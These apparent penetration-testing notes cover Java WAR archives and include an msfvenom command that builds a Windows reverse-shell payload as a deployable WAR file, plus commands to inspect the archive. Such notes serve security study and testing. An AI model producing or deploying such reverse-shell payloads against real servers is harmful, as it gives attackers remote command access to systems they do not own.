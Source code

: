 # Java Based Applications

**.WAR:**

A Web Application Resource is a single file container that holds all the potential files necessary for a Java-based web application. It can have Java Archives (.jar), Java Server Pages (.jsp), Java Servlets, Java classes, webpages, css, etc.

The `/WEB-INF` directory inside the archive is a special one, with a file named `web.xml` which defines the structure of the application.

**Create Malicious WAR files:**

Windows: msfvenom

```

msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=4444 -f war > filename.war
```

**WAR files are basically ZIP files:**

```
head -c 16 filename.war | xxd
```



**Finding  JSP files:**

```
#Install
sudo apt install default-jdk

#Use jar to list content of the war file
jar tf revshell.war

#Curl .jsp file
```
